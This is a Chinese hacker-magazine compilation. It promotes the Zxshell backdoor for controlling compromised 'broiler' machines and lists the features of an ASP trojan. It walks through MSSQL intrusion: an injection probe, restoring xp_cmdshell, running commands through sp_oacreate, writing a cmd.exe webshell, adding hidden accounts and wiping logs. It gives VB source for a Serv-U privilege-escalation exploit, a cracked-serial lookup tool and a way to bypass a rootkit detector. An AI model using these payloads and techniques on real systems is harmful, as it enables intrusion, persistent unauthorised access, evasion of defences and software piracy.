随着杀毒软件功能的逐步强大，小马也越来越不好养了，虽然有些木马反汇编并改造过后可以逃脱杀毒软件的查杀，但这些都是高手们的专利，我们小菜就无法摆弄了。那我们怎么办呢？眼睁睁地看着肥肥的肉鸡飞掉？我可不答应，今天就给大家介绍一款新的后门软件，量大优惠，价格从优，有没有需要的？（不要抛砖头过来哦，开个玩笑，抛砖头要出人命的！）

大家一定都知道 BITS 吧？大名鼎鼎的小榕的作品，相信很多朋友都用过吧？但是令人遗憾的是 BITS 没有服务器上线通知功能和反向连接功能。反向控制个人电脑或者有防火墙的肉鸡就麻烦了，不过，这些功能 Zxshell 可全都有。别吃惊，还有更好玩的在后面。

Zxshell 下载后有 3 个主要文件，即 Zxrecv.exe、Zxshell.exe 和 Zxsvc.ini，其中 Zxrecv.exe 就是用来接收服务器上线通知的，Zxshell.exe 是用来配置我们的小马的，Zxsvc.ini 是以 HTTP 协议的方式放在网上的服务器端配置文件。

小菜也许要问了，为什么要把服务端配置文件放在网上呢？不要着急，一会儿就知道它的妙处所在了。

- 先来简单介绍一下它的功能特点吧：
  1. 进程管理器中看不到。
  2. 平时没有端口，只是在系统中充当卧底的角色。
  3. 提供正向连接和反向连接两种功能。
  4. 服务端具有上线通知功能。
  5. 仅适用于 Windows 2000/XP/2003。

是不是觉得很熟悉？和 BITS 很像哦，只是多了反向连接和服务端上线通知功能。我们来具体看看这个小马的情况吧，打开 zxshell.exe 之后，很简单。如图 1 所示。

第一个是你要选择的一项系统服务。Zxshell 安装后将会替代掉这个系统服务。下边这个选项是你存放 zxsvc.ini 的 HTTP 绝对路径，配置好后生成 Zxsvc.dll，在生成的过程当中还释放出了 Upx.exe，估计是用它压缩了，没有去深究。

生成 Zxsvc.dll 之后，你就可以把它拷贝到肉鸡上了。OK！我们开始体验！我的 Zxsvc.ini 配置如下：

```ini
[zxconfig]
MyIP=192.168.0.5
Port=2599
Password=123456
Banner=Password:
BackConnect=0    // 由于我的肉鸡有外网IP，所以设
ServerID=123
LocalPort=6666   // 反向连接端口，在这个端口，你必须用 nc -vv -l -p 6666 监听。
```

然后把 zxsvc.ini 放置到网上，也就是你刚才配置的地址，再到肉鸡上用：Rundll32 zxshell.dll 1，把 zxshell 安装到你可爱的肉鸡上（注意，后边的是区分大小写的）。

如果没有提示，就证明安装成功，如果出现错误提示，那你就好好检查检查吧。运行连接命令后，出现你在 zxsvc.ini 中设置的密码 Banner，输入密码，回车，对肉鸡狂吼：我胡汉三回来了！

连接上服务器后会出现 zxshell 的命令列表，如图 2 所示。

这里有一个 BUG，第一次输入命令时木马总会说是无效指令。也就是说每一个指令都必须输入两次，不知道是我的系统 BUG 还是软件自己的问题。输入 Shell 命令就可以得到真正的 Shell 了，可以执行任意命令，是不是很爽啊？如图 3 所示。

到了这里，我就不用再说什么了吧？大家可以自由发挥了。

接下来，我们再来体验一下它的服务端上线通知功能。服务端安装完毕之后，把服务端重新启动一下，然后在服务器上打开 zxrecv.exe，它会自动监听，等着服务端的上线通知。大约几分钟之后，我终于看到我们的上网服务器上的这个窗口多出来了一行字，高兴ing！——但是靠近一看却被泼了一瓢冷水，你瞧（图 4）：

Zxshell 给报了一个内网 IP，郁闷！不过这也证明了它的服务端上线通知确实好使，只是还不太完善，有待加强罢了。

接下来，我们再来一下它的反向连接功能，这可是现在优秀后门、木马穿透防火墙的必备功能哦。先在自己的电脑上用 `nc -vv -l -p 6666` 命令监听 6666 端口，然后修改 zxsvc.ini 文件当中的相关配置，把 BackConnect 的值改成 1，然后上传到服务器上运行，这次我测试了 3 次才成功，虽然这个功能很爽，可以穿透一些防火墙，但是从我测试来看，稳定性比较弱，大家在使用的时候可要慎重哦！

总的来说，这是一款很好的后门，我现在控制肉鸡就全都用它了，但是它在有些地方不知道是我没有体会到还是软件没有做好，功能不太完善，希望在下一个版本中能够修正这些错误，或者把署名写得更加明了、更加易懂一些，也让我们这些小菜享受一下疯狂抓鸡的乐趣！

（Zxshell 已在光盘中提供下载。）

# MY CODE

执行即可，当然好代码不要忘记给我一份喽。

- 附上 ASP 木马客户端，主要功能如下：
  1. 环境探测：探测服务器的配置及资源情况。
  2. 下载文件：使用控件 ADODB.Stream。
  3. 上传文件：从指定网址下载文件保存到指定位置。使用的控件 Microsoft.XMLHTTP 和 ADODB.Stream（在 new 目录下有仅使用 ADODB.Stream 的）。这是因为以前海洋无法下载非 Web 目录下的文件所做的修正，现在的 2004 版已经可以了。
  4. 目录浏览 FSO：使用控件 Scripting.FileSystemObject。
  5. 写入文件 FSO：使用控件 Scripting.FileSystemObject。
  6. 删除文件（夹）FSO：使用控件 Scripting.FileSystemObject。
  7. 目录浏览 Shell：使用控件 shell.application，无法显示隐藏属性的文件（夹）。
  8. 搜索网络邻居共享：利用的是 shell.application 控件，为了弥补海阳顶端 ASP 木马所做的，速度比较慢一些。
  9. 运行程序：使用控件 WScript.Shell 或 shell.application。
  10. 磁盘信息：取自“ASP 探针”中的代码。

因为这个木马可以自行扩展功能，所以目前我仅把常用功能写了一下，如果有其他需要请和我联系或从网上找相应的代码。最后我再次感谢 lcx、allen 等各位大哥，感谢你们所做的努力，让我学到了很多，谢谢。

## 后记

文中的木马的确很精巧，看得出是匹精彩的小马，但因为它太矮小了，虽然隐藏性很强，同时也带来了使用上的一些不便，需要使用者有相当的脚本功底才能顺畅地使用；欢迎大家把实际的功能扩展发给我们，共同讨论。小编建议大家可以把它和海阳顶端 2004 配合使用，相信效果一定非常理想。

（文中涉及到的程序、代码已全部收录到光盘。）

# 千变万化恢复 `xp_cmdshell`

## ——利用 MSSQL 数据库存储扩展取得服务器权限

难度等级：高

适合读者：数据库入侵爱好者

前置知识：数据库基本操作、常见 SQL 注入方法

文／图 Firstsee

蝴蝶：大家在入侵的过程中经常遇到注入漏洞吧？如果是 SQL Server+Asp，再加上 SYSAdmin 的权限，服务器几乎在几分钟内就会被我们搞定了，直接加上系统的 SYSTEM 权限账户，爽吧？但是如果对方删除了一些存储过程呢？是不是我们就没办法了？当然不是的，我们同样可以搞定它！

在 MSSQL 中，具有 SYSAdmin 权限的用户可以通过 `xp_cmdshell` 存储扩展，以 SYSAdmin 的权限执行任意系统命令，因此大多数对安全比较重视的管理员都会将它删除。获得 `xp_cmdshell` 的执行权限也就成了大多数 SQL Injection 攻击方法的终极目标，下面我给大家介绍一下在此过程中涉及到的几个关键问题及其解决方法，权当是抛砖引玉吧。

我们先要获取数据库当前用户的连接权限。MSSQL 中一共存在 8 种权限：`sysadmin`、`dbcreator`、`diskadmin`、`processadmin`、`serveradmin`、`setupadmin`、`securityadmin` 和 `bulkadmin`。每一个权限具有不同的作用，同时也决定了我们入侵的成败。在这 8 种权限中，只有 SYSAdmin 才是我们真正想要的，因此只需要提交如下 URL：

```text
http://somesite/show.asp?id=4864 and 1=(select IS_SRVROLEMEMBER('sysadmin'))
```

就可以判断当前用户是否具有 SYSAdmin 权限了，如果返回正常的话那就恭喜了，今天买彩票肯定中奖！如果不正常的话就得辛苦点了，我们得一步步来。

### 1. 破解 SA 账号的口令

这种方法应该不属于 SQL Injection 的范畴，但在我们的整个渗透过程中往往会起到决定性的作用。闲话少说，打开我最常用的 SQLScanPass，将主机 IP 及端口 1433 写入 `SQLHost.txt` 文件中，先测试一下空口令，如果没成功的话，就挂一个好用的字典，成功的几率看大家的字典好坏和运气了。程序运行界面如图 1 所示。

现在，我们可以沏上一杯咖啡慢慢地享受，慢慢地等待了……

图 1

### 2. 判断存储扩展是否存在

如果获得了 SA 或其他账号弱口令的话，剩下的任务就可以交给 SQLTools.exe 了（如果当前网站数据库使用的是 SYSAdmin 的连接权限，就可以利用“臭要饭”的方法进行存储扩展的检测及恢复，这样会容易很多，以前《黑防》“要饭的”写过很详细的文章，这里暂时不说）。这个程序是由发哥编写的，其功能强大得令人难以想像——但执行数据库命令和系统命令都需要一定的存储扩展支持，因此首先要判断这些存储扩展是否存在。

用 SQLTools 连接上远程数据库，从“利用目录”菜单中打开“执行数据库命令”窗口，填入我们要执行的命令。例如：

```sql
Select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'
```

这就是用于判断是否存在 `xp_cmdshell` 存储扩展的，运行界面如图 2 所示。

如果返回结果为 1 的话，我们就可以使用菜单中的“执行 DOS 命令”选项了，说明它没有删除这个扩展存储过程，否则的话就要再往下看了。

### 3. 恢复 `xp_cmdshell`，抓住肉鸡

直接在数据库命令执行窗口写入：

```sql
Exec master.dbo.addextendedproc 'xp_cmdshell', 'xplog70.dll';
select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell';
```

意思是恢复默认的存储过程，如果返回 1 的话就说明恢复成功，否则就是存储过程被删除，需要我们给它上传一个 xplog70.dll 文件。

打开“文件上传”窗口将文件上传到对方服务器 `C:\WinNt\System32\` 下后，再执行数据库命令恢复这个文件：

```sql
Exec master.dbo.addextendedproc 'xp_cmdshell', 'C:\WinNt\System32\xplog70.dll';
```

OK，剩下的就是我们日常使用的 `net use` 和 `net localgroup` 命令了，再为服务器添加一个隐藏的账号，清理好 IIS 日志和 MSSQL 日志后就可以闪人了。

### 4. 绕过 `xp_cmdshell` 执行系统命令

上面的几种方法都是常用的方法，其实我们完全可以不采用这样的思路去搞定删除扩展存储过程的 SQL 服务器，因为在 MSSQL 中可以通过 `sp_oacreate` 和 `sp_oamethod` 两个存储扩展创建 ActiveX 自动脚本——聪明的你一定想到了吧？执行系统命令的语句我们可以自己给它加上哦，可以写出如下代码：

```sql
declare @o int
exec sp_oacreate 'wscript.shell', @o out
exec sp_oamethod @o, 'run', NULL, 'net start telnet';
```

这段代码的作用是在服务器上通过 `wscript.shell` 执行 `net start telnet`，从而开启服务器的 Telnet 服务。再通过 FSO 对服务器进行文件管理，例如：

```sql
declare @o int, @f int, @t int, @ret int, @c varchar(8000)
declare @line varchar(8000)
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'opentextfile', @f out, 'c:\boot.ini', 1
exec @ret = sp_oamethod @f, 'readline', @line out
```

```sql
select @c=''
while (@ret=0)
begin
select @c=@c+@line+char(13)+char(10)
exec @ret = sp_oamethod @f, 'readline', @line out
end
```

用上面的方法可以读取服务器上 `c:\boot.ini` 文件中的内容并存储在局部变量 `@c` 中，如果想读出来，只需要创建一个临时表写入数据，再暴出来就可以了，“臭要饭的”兄弟也写得很详细了，这里不再多说。

还有一个方法可以直接创建文件并写入数据，哈哈，想到了什么？对！可以直接写一个 WebShell 到服务器上去！例如：

```sql
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'c:\inetpub\wwwroot\foo.asp', 1
exec @ret = sp_oamethod @f, 'writeline', NULL, '<% set o = server.createobject("wscript.shell"): o.run("cmd.exe /c "&request.querystring("cmd")) %>'
```

上面的代码在服务器 `c:\inetpub\wwwroot\foo.asp` 上创建了一个只有两行代码的 ASP 木马，我们直接连上去就 OK 了。这种方法避免了天鹅兄弟使用备份生成 WebShell 所带来的大量无用数据，也免掉了使用 `sp_makewebtask` 存储扩展所带来的创建临时表的麻烦，而且成功率大大增加。这可是居家旅行、强抓肉鸡的必备技术哦！

MSSQL 为我们提供了异常丰富的存储扩展库，可以实现操作系统所能实现的大部分重要的功能，例如注册表管理、文件管理、用户管理、权限管理等，这是好事，但是如果管理员没有足够的安全防范意识，这些“优点”就会被入侵者所利用，你的服务器就会遭到致命性的威胁了！大家多看《防册》的防范部分，好好地配置你的服务器哦！

（SQLScanPass、SQLTools 在本期光盘中收录。）

### TPS：测试 IIS 写权限

测试一个目录对于 Web 用户是否具有写权限，采用如下方法：Telnet 到服务器的 Web 端口（80）并发送一个如下请求：

```http
PUT /dir/my_file.txt HTTP/1.1
Host: iis-server
Content-Length: 10
```

这时服务器会返回一个 100（继续）的信息：

```http
HTTP/1.1 100 Continue
Server: Microsoft-IIS/5.0
Date: Thu, 28 Feb 2002 15:56:00 GMT
```

# Serv-U 权限提升就这么简单

## ——编程原理篇

◎ 文／图 劲逍

前面的软件具体使用大家都看了吧，比较简单一些，但单学会这样的使用并不是我们的初衷，懂得如何编写才有价值，我就把这个软件的编写原理及过程和大家一起讨论吧。编程的知识点比较多，也比较杂，所以我用一种新的方式——问答的方式来讲解（由于我是第一次给《黑客防线》投稿，不妥之处还请大家多多包涵）。

**问：** 你的软件制作平台是什么？

**答：** 我是在 WIN XP+VB6.0 下编译的。

**问：** 你的软件利用的漏洞是什么？

**答：** 利用的是 Serv-U 本地权限提升漏洞，具体可以见 http://www.xfocus.net/articles/200312/651.html，可以说我利用的是这个漏洞的实质。经过分析可以知道，Serv-U 对 FTP 服务器的管理是通过 Serv-U Administrator 这个软件连接 Serv-U 的管理端口（默认的是 43958），发送管理命令来完成的，而不是直接读写 Serv-U 的配置文件，当然出于安全考虑，这个管理端口只允许本地连接。明白了原理，我们也可以编写一个软件，模仿 Serv-U ADMIN 在本地向 Serv-U 服务发送特定的命令，这样 Serv-U 就会忠实地执行这些命令，从而达到提升权限的目的。

**问：** 你是如何得到 Serv-U 特定命令的？

**答：** 这里要特别感谢 -273℃，我最后使用的命令是由他提供的，资料最初来源于外国，但是这不代表我们自己就不能找到了，聪明的读者一定想到了，对！用嗅探技术，下面我详细说说。

首先，我们需要一个嗅探软件——WSockExpert，这个软件是我最喜欢的嗅探工具，个头小，可以监视特定的进程通信，先打开 Serv-U Administrator，切换到 WSockExpert，点击打开进程图标，选择进程 Serv-U ADMIN，如图 1 所示。

打开进程！

账号和密码随便，如图 2 所示。

下面我们就监视 Serv-U 的管理过程，在 Serv-U ADMIN 里在一个 FTP 域上点击右键选择“Disconnect”，然后切换到 WSockExpert，点运行嗅探的按钮，返回到 Serv-U ADMIN，在停止的域上点击右键，选择“Connect”，连接后，我们立刻新建一个域，域名起 MYFTP，端口设在 1984。

切换到嗅探器，你可以看到粉红色的表示发送的数据，蓝色的表示接受的数据。这时记住先暂停，不然后面的数据就会冲掉前面的数据，向前找，我们可以看到很多“GETSTATUSINFO”命令，这是用来刷新服务器信息的，向上找，第一个命令应该是“USER LocalAdministrator”，然后是“PASS #!@$ak#.!k.;0@P”，这两个命令是 Serv-U 登录的命令，然后大家可以看到一大堆的命令，例如：“-SETDOMAIN”“-Domain=MYFTP|0.0.0.0|1984|-1|1|0”“-DynDNSEnable=0”，这些命令就是新建了一个域，和 FTP 命令很相似呢，这下大家应该明白 Serv-U 的管理命令了。提醒大家注意一点，Serv-U 命令是很严格的，开头的空格少了也不能识别。最后给大家列出新建一个 Serv-U 域并在域上新建一个用户的全部必要命令：

```text
USER localadministrator //发送用户名和密码进行登录
PASS #!@$ak#.!k.;0@P
SITE MAINTENANCE //切换到管理模式
-SETDOMAIN //开始新建域
-Domain=MYFTP|0.0.0.0|1984|-1|1|0 //建立一个名为 MYFTP、IP 为监听在所有 IP、端口为 1984 的新域
-DynDNSEnable=0
-DynIPName= //域建立完成
-SETUSERSETUP //开始新建用户
-IP=0.0.0.0
-PortNO=1984
-User=sportshark //用户名
-Password=840329 //用户密码
-HomeDir=c:\ //用户默认主目录
-Maintenance=System //用户身份——系统管理员
-Ratios=None
-Access=c:\|RWAMELCDP //对主目录进行权限设置
用户建立完成
```

将以上命令发送出去，就会达到目的了。现在，朋友们可能要问了：你为什么不在服务器原有域上新建用户呢？这是因为在原有服务器上直接新建一个用户，首先要分析服务器返回的信息，从中提取到 IP 地址、端口、用户设置限制等信息，比较麻烦。我实验过很多次，都没有成功，而我用新建域的方法很快就成功了。当然，在原有域上新建用户有它的好处，比如能穿透防火墙、隐藏等优点，希望哪位高手能做出这个完美的提升工具。

问：那你是如何用 VB 来具体编写的呢？

答：由于编程的部分是写给有基础的读者的，所以对于一些比较基础的东西，我就一语带过。如果大家有什么疑问，可以到论坛和我讨论，也可以看源代码。那么如何使用 VB 来实现，说大了是用 SOCKET 编程，说小了，其实就是利用 VB 自带的 WINSOCK 控件。这个控件在 VB 的部件中，选择“Microsoft Winsock Control 6.0”，点确定返回后，VB 的控件栏就有了一个图标为两个小计算机的控件——WINSOCK，拖一个到窗体上。OK 了，我简单介绍一下 WINSOCK 控件，它的主要用途是用来发送接收数据。这里我们用到的主要属性有如下：RemotePort（用来设置远程连接端口）、RemoteHost（用来设置远程连接 IP）；主要动作有 Connect（连接远程 IP）、Close（关闭一个连接）、SendData（发送数据）；主要事件有 DataArrival，该事件在我们的程序接收到数据时触发。

举个例子，我们要连接 Serv-U 的管理端口，并发送命令，那么我们只要用到如下代码：

```vb
Winsock1.RemotePort = 43958
Winsock1.RemoteHost = "127.0.0.1"
Winsock1.Connect
Winsock1.SendData "..."
```

以上就完成了连接和发送命令的功能。如果我还想在服务器有返回信息的情况下做出反应，那么在 DataArrival 事件中添加想执行的代码即可。例如，在事件中添加如下代码：

```vb
MsgBox "we got it!"
```

当我们的程序在接到数据时就会弹出对话框“we got it!”。切入重点，对于实际程序，首先我们在全局处定义变量：

```vb
Dim homedir As String //定义主目录变量
Dim n, lport, ftpport As Double //lport 用来储存 Serv-U 管理端口信息，ftpport 用来储存新建域的端口
```

在 Form_Load 属性中添加如下代码：

```vb
Dim appname As String //定义储存文件的路径
Dim tmp
Form1.Visible = False //设置程序不可见
Form1.Caption = "动态Serv-U权限提升工具" //设置程序的标题
//以下代码用来寻找配置文件是否存在
If Right(App.Path, 1) <> "\" Then
    appname = App.Path & "\" & App.EXEName & ".ini"
Else
    appname = App.Path & App.EXEName & ".ini"
End If
//如果配置文件存在则运行以下代码
If Dir(appname) <> "" Then
    Open appname For Input As #1 //打开配置文件
    Line Input #1, tmp //读取第一行
    lport = Mid(tmp, 11) //从第一行获得 Serv-U 管理端口
    Line Input #1, tmp //读取第二行
    ftpport = Mid(tmp, 9) //从第二行获得新建域的端口
    Line Input #1, tmp //读取第三行
    homedir = Mid(tmp, 9) //从第三行获得用户主目录
    Close
Else //如果配置文件不存在，则将默认的值赋予 WINSOCK
    lport = 43958
    ftpport = 1984
    homedir = "c:\"
End If
Winsock1.RemoteHost = "127.0.0.1" //设置远程 IP
Winsock1.RemotePort = lport //设置远程端口
Winsock1.Close //关闭连接，这里一个习惯，防止出错
Winsock1.Connect //连接 Serv-U
```

在 Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long) 中添加以下代码：

```vb
n = n + 1 //计算数据返回的次数，因为我们要发送数据多次以保证能够连接，但是我们不能无休止地发送，用这个变量计算发送了多少次。
If n < 3 Then //如果发送不到三次则执行以下代码。
    Winsock1.SendData "USER localadministrator" & vbCrLf
    //注意每个命令后面要加 vbCrLf，就是回车换行的意思
    Winsock1.SendData "PASS #10@ak#.lk;@QeP" & vbCrLf
    Winsock1.SendData "SITE MAINTENANCE" & vbCrLf
    Winsock1.SendData "-SETDOMAIN" & vbCrLf
    Winsock1.SendData "-Domain=MYFTP|0.0.0.0|" & ftpport & "|-1|0|8" & vbCrLf
    Winsock1.SendData "-DynDNSEnable=0" & vbCrLf
    Winsock1.SendData "-DynIPName=" & vbCrLf
    Winsock1.SendData "-SETUSERSETUP" & vbCrLf
    Winsock1.SendData "-IP=0.0.0.0" & vbCrLf
    Winsock1.SendData "-PortNO=" & ftpport & vbCrLf
    Winsock1.SendData "-User=sportshark" & vbCrLf
    Winsock1.SendData "-Password=840329" & vbCrLf
    Winsock1.SendData "-HomeDir=" & homedir & vbCrLf
    Winsock1.SendData "-Maintenance=System" & vbCrLf
    Winsock1.SendData "-Ratios=None" & vbCrLf
    Winsock1.SendData "-Access=" & homedir & "|RWAMELCDP" & vbCrLf
Else //如果发送次数超过了三次则关闭程序
    End
End If
```

> **注意：** 要在各个事件里添加代码“On Error Resume Next”，防止程序出错时系统报错，提高隐蔽性。同时，Serv-U 的连接需要一些时间，虽然对我们来说很短，但是对程序已经很长了，所以在 Winsock1.Connect 代码后直接发 Serv-U 命令是不能被执行的，因为还没连接上，所以我们把 Serv-U 命令的发送放在 DataArrival 事件中。

好了，就说到这里了，我把我知道的都奉献给大家了，希望大家能够喜欢。如果大家有什么疑问，欢迎到《黑客防线》的官方论坛和我讨论。（文中软件源代码可在光盘“杂志相关”栏目找到。）

## VB打造暴力注册码查看器


◎ 文／图 美超

大家有没有某个软件因为需要注册而使用不了，因此烦恼呢？我相信只要是长期在网络上呆着的朋友一定会有这样的遭遇。那么现在我就来帮大家解决这个问题：给大家讲解一下，如何制作一个输入某注册软件的名称，直接就能显示这个软件注册码的程序。是不是很方便？大家听了也许会觉得做出这样的一个程序很难，其实不然，下面是这个软件的原理，大家看了就知道制作这个软件有多容易了。

## 软件原理：

本软件的制作原理很简单，因为网上有大量的软件注册码，大家可以费点工夫去在网上收集各软件的注册码，然后把它们储存到一个数据库文件里。这里我用的是 Access，然后利用 VB 编写一个程序，当输入某软件名称时，直接从数据库中调出，这样很快就可以查找到软件的注册码了。其实最费时间的就是在网上寻找注册码，如果你找得越多，你这个软件能找到的注册码就越多。

介绍完本程序的原理后，现在我就和大家一起来制作这个软件。

首先，把收集到各软件的注册码输入到 Access 数据库中，然后生成 zhuce.mdb 文件，如图 1 所示。


图 1

## 制作步骤：

首先打开 VB6.0，先做程序的界面，如图 2 所示。


图 2

其中，TextBox 是用来往里输入软件名称的；里面有两个重要的 Label 控件，一个用来显示软件名称（Label3），另一个用来显示注册码（Label4）。

窗体制作完毕后，现在我们来做一下细微的调整。大家看上面的原理就应该知道本程序是用了有关数据库的操作，技术就是用到了 VB 中的数据库控件。因为使用控件比较低级，所以我们使用系统自带的 ADO。

首先，我们在 VB 里打开“工程”->“引用”，然后在打开的“引用”窗口中选中 Microsoft ActiveX Data Objects 2.5 Library，如果大家的系统中没有 2.5 版本的，可以选择 2.0 的，因为这个版本的系统中都有，比较保险。最后“确定”回到窗体。

现在我们开始填写代码部分了，首先我们先建立一个模块，里面填写如下代码：

```vb
Public Rs As ADODB.Recordset
Public Con As ADODB.Connection

Sub Main()
    Set Con = New ADODB.Connection
    Con.Open "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & App.Path & "\zhuce.mdb;Persist Security Info=False"
    '打开数据源的连接位置为当前目录下的 zhuce.mdb
    Form1.Show
End Sub
```

因为这里用到了 Sub Main() 函数，所以大家得把窗体设置改变成启动窗体。设置启动窗体的方法如下：

- 1. 从“工程”菜单中选取“工程属性”。
- 2. 选取“通用”。
- 3. 在“启动对象”ListBox 中，选取要作为新启动窗体的窗体。
- 4. 选取“确定”。

现在进入窗体部分输入代码，进入 Text1 代码区：

```vb
Private Sub Text1_Change()
    Dim Rs As New ADODB.Recordset
    Rs.Open "select * from softinfo where soft like '" & Text1.Text & "%'", Con, adOpenDynamic, adLockReadOnly
    If Rs.EOF Then
        MsgBox "对不起，没有您所输入的软件注册码！", vbInformation + vbOKOnly, "提示"
        Exit Sub
    Else
        Label3.Caption = ""
        Label3.Caption = Rs!soft
        '显示软件名称
        Label4.Caption = ""
        Label4.Caption = Rs!ma
        '显示注册码
    End If
End Sub
```

以上代码里用到了查找数据库的查找语句——SELECT。

## SELECT 语法：

```sql
SELECT [predicate] { * | table.* | [table.]field1 [AS alias1][, [table.]field2 [AS alias2] ...] }
FROM tableexpression [, ...] [IN externaldatabase]
[WHERE ...]
[GROUP BY ...]
[HAVING ...]
[ORDER BY ...]
[WITH OWNERACCESS OPTION]
```

SELECT 语句说明：predicate 为下列谓词之一：ALL、DISTINCT、DISTINCTROW 或 TOP。你可用谓词来限制返回的记录数量。如果没有指定谓词，则默认值为 ALL。

> 下面要注意要点：从特定的表中指定全部字段：

Table：表的名称。此表中包含已被选择的记录的字段。  
field1、field2：字段的名称，该字段包含了你要获取的数据。如果数据包含多个字段，则按列举字段的顺序依次获取它们。  
alias1、alias2：名称，用来作为标头，以代替 table 中原有的列名。  
tableexpression：表的名称，这些表包含要获取的数据。  
externaldatabase：数据库的名称。该数据库包含 tableexpression 中的表；如果这些表不在当前数据库中的话。

现在这个软件就做完了，大家看用 VB 做的部分很简单吧，几句话就可以完成查找数据库功能。现在我们运行此程序，然后随便输入某个注册码软件的名称，这个软件的注册码自然就会出来了。大家如有不清楚的地方，可以发 E-mail：vv_cool@sina.com，和本人探讨。

# 反 Rootkit 编程精华

文／there@cftiz.net

## ——绕过调试寄存器保护直接修改物理地址

Rootkit.com 上有个 PatchFinder2 的 Rootkit 检测程序，采用了基于 EPA（执行路径分析）技术用来检测侵入内核的 Rootkit。它可用来检测 Hacker Defender、APX、Vanquish、He4Hook 等黑客们常用的 Rootkit。这里不介绍它的检测原理，它采用了 X86 调试处理器的特性来进行自我保护，应该说是非常有特色的，主要看看这个技术吧。

先让我们看看 PatchFinder2 的部分驱动，大体功能是先直接取得系统服务表函数地址，再拦截系统函数 NtReadFile，然后利用调试寄存器保护 IDT 1 的中断门和 INT 1 的调试处理例程，并保护所有的调试寄存器，取得对系统的完全控制。

（详细代码和分析请看光盘“杂志相关”栏目）下面，再看看它出彩的自我保护部分功能是如何实现的：

```c
int dbProtect (int reg, int addr, int len, int protection) {
    unsigned int dr7mask;
    KdPrint(("pf: dbProtect (DR%d = %#x)\n",
        reg, addr));

    //设置相应的调试寄存器中要保护的地址。
    switch (reg) {
    case 0:
        __asm {
            mov eax, addr;
            mov DR0, eax;
        }
        break;
    case 1:
        __asm {
            mov eax, addr;
            mov DR1, eax;
        }
        break;
    case 2:
        __asm {
            mov eax, addr;
            mov DR2, eax;
        }
        break;
    case 3:
        __asm {
            mov eax, addr;
            mov DR3, eax;
        }
        break;
    }
}
```

```c
//设置DR7中其他相应的保护选项
dr7mask = 0x2 << (reg*2);
dr7mask |= ((len<<2) + protection) << (16+(4*reg));
__asm {
    mov eax, DR7;
    or  eax, dr7mask;
    mov DR7, eax;
}

return 1;
}

//设置DR7中的BD保护，保护任何对调试寄存器的访问
int dbSetGeneralProtection() {
    __asm {
        mov eax, DR7;
        or  eax, 0x1000;
        mov DR7, eax;
    }
    return 1;
}
```

由此可见，PatchFinder2 对自己进行了全面的保护，使用中断描述符表（IDT）的中断 1 的入口，并且为了防止 Rootkit 修改这个入口，它使用调试寄存器（DR0、DR1）来保护中断门 1 的描述符，使用 DR2 来保护调试处理例程本身，最后设置 DR7 的 BD 位来保护调试寄存器，可以说理论上是天衣无缝的，确实值得我们好好地学习。

（Intel 80386 以上的调试寄存器详细介绍请看文后 TIPS）

但让我们再读一遍 Intel Manual [3]！“每个调试地址寄存器（DR0 到 DR3）保存 32 位断点的线性地址。”注意，线性地址！在 Windows 2000/XP 下，通过分页机制把线性地址转换为物理地址。假设 IDT 的基地址是在 0x8003F400，保存在 IDTR 中，那么 IDT 的 0x01 入口地址就是 0x8003F408。Intel 有关 IDTR 的说明：“基地址标明了 IDT 的 0x00 入口地址。”Windows 2000/XP 下由 CR3 寄存器指向的页目录被映射到线性地址 0xC0300000，线性地址是由目录、表和偏移组成，通过分页机制我们将 0x8003F400 转换为物理地址就是 0x03F400（通过 SOFTICE 的 PAGE 命令获得）。现在我们要做的就是创建一个地址，并使这个地址指向物理地址。0x03F400。然后，向这个地址中写入的东西就会写入 IDT，并且不会触发 PatchFinder 的保护机制。调试寄存器是根本无法保护内存的，因为它们无法保护物理内存。

当然，对付 PatchFinder2 还有很长的路要走，不是直接恢复 IDT 的入口就可以的，这里我只简单地介绍一下如何在内核中构造一个不存在的线性地址来指向你所要访问的物理地址（在用户层你甚至可以简单地使用 `\Device\PhysicalMemory` 对象来直接访问物理地址，这个方法路人皆知我就不说了），但毕竟 `\Device\PhysicalMemory` 能对我们开放多久也不得而知，随着越来越多的 NT RING0 病毒的出现，估计以后也不会那么轻易可以使用了。

在地址转换的时候，我们经常需要进行物理地址到线性地址的转换，在 9X 下有个 VXD 调用，VxDCall _MapPhysToLinear，功能号是 0001006Ch，在 2K/XP 下没有现成的函数可用，我研究了 NTOSKRNL 函数，发现了一个 MmGetVirtualForPhysical 函数，但 DDK 里的说明却是 The following routines are reserved for system use. Do not use them in your driver。看来微软不让用，突然想起有 2K 的原代码，看看里面到底是什么。

```c
PVOID
MmGetVirtualForPhysical(
    IN PHYSICAL_ADDRESS PhysicalAddress
)

/*++
Routine Description:
    This function returns the corresponding virtual
    address for a physical address whose primary virtual address is in system space.

Arguments:
    PhysicalAddress - Supplies the physical address for which to return the virtual address.

Return Value:
    Returns the corresponding virtual address.

Environment:
    Kernel mode. Any IRQL level.
--*/

PFN_NUMBER PageFrameIndex;
PMMPFN Pfn;

PageFrameIndex = (PFN_NUMBER)(PhysicalAddress.QuadPart >> PAGE_SHIFT);
Pfn = MI_PFN_ELEMENT(PageFrameIndex);
return (PVOID)((PCHAR)MiGetVirtualAddressMappedByPte(Pfn->PteAddress) + BYTE_OFFSET(PhysicalAddress.LowPart));
```

虽然是物理地址转线性地址的函数，不过却只有一层外壳，很郁闷，还是看看 NTOSKRNL 的反汇编代码吧！希望有收获。

```asm
text:0043753C    public MmGetVirtualForPhysical
text:0043753C    MmGetVirtualForPhysical proc near
text:0043753C    ; CODE XREF: sub_4855A6+16C
text:0043753C    arg_0 = dword ptr 4
text:0043753C    arg_4 = dword ptr 8
text:0043753C    mov     edx, [esp+arg_4]
text:00437540    push    esi
text:00437541    mov     esi, [esp+4+arg_0]
text:00437545    push    0Ch
text:00437547    pop     ecx
text:00437548    mov     eax, esi
text:0043754A    call    __allshr
text:0043754F    mov     ecx, dword_46A18C
text:00437555    lea     eax, [eax+eax*2]
text:00437558    and     esi, 0FFFh
text:0043755E    mov     eax, [ecx+eax*8+4]
text:00437562    shl     eax, 0Ah
text:00437565    add     eax, esi
text:00437567    pop     esi
text:00437568    retn    8
text:00437568    MmGetVirtualForPhysical endp
```

